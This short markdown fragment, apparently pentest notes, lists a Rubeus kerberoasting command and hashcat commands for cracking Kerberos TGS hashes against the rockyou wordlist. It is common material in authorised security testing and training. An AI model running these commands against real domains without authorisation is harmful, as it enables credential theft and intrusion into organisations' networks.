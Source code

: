 # Password Cracking

### Rubeus

```
.\Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force
```

#### Cracking passwords

```
hashcat -m 13100 --force <TGSs_file> /usr/share/wordlists/rockyou.txt
```
